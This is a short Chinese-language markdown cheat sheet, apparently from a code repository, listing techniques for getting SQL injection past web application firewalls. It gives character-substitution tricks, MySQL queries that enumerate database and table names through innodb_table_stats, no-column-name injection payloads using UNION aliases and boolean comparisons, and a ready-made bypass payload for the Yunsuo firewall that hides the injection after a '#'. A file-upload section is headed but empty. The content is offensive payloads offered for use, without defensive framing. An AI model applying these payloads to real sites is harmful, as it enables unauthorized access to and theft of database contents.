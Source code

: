 # WAF
---
## 0x01 注入

### 通用

1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```

### 云锁

1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可

## 0x02 文件上传


